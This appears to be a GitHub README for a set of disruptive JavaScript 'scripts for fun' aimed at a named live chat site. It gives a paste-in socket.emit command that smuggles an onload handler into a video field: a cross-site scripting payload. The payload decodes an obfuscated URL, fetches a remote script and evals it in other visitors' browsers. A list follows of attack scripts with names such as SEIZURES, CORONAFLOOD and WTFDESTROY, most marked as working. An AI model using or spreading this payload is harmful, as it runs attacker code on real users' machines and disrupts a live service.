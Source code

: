 # ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into https://bonziworld-revived-1.onrender.com/ and
paste this script `socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`
# Script Status?
ANANASORANG = Pacifists<br />
BALDIGLITCH = Genocides<br />
CORONAFLOOD = Genocides<br />
DOMINO = Genocides<br />
GAMEBOY = Genocides<br />
IVORYNUKE = Genocides<br />
LOSK = Genocides<br />
SEIZURES = Genocides<br />
WEBDRIVER = Genocides<br />
WTFDESTROY = Genocides<br />
BAN = Genocides<br />
ROTAT = Genocides<br />
COMBINE = ?????
